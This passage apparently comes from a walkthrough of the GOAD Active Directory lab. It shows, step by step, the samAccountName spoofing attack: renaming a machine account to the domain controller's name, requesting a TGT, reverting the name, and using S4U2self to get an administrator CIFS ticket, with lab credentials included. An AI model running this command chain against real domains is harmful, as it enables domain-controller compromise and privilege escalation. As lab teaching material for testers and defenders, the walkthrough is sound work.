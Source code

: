 ![samaccountname_addspn.png](/assets/blog/GOAD/samaccountname_addspn.png)


- Rename the computer (computer -> DC)

```shell
renameMachine.py -current-name 'samaccountname$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/jon.snow:iknownothing
```

![samaccountname_renamemachine.png](/assets/blog/GOAD/samaccountname_renamemachine.png)


- Obtain a TGT

```shell
getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'
```

![samaccountname_getTGT.png](/assets/blog/GOAD/samaccountname_getTGT.png)


- Reset the computer name back to the original name

```shell
renameMachine.py -current-name 'winterfell' -new-name 'samaccount$' north.sevenkingdoms.local/jon.snow:iknownothing
```

![samaccountname_rollbackname.png](/assets/blog/GOAD/samaccountname_rollbackname.png)


- Obtain a service ticket with S4U2self by presenting the previous TGT

```shell
export KRB5CCNAME=/workspace/winterfell.ccache
getST.py -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
```

![samaccountname_getST.png](/assets/blog/GOAD/samaccountname_getST.png)
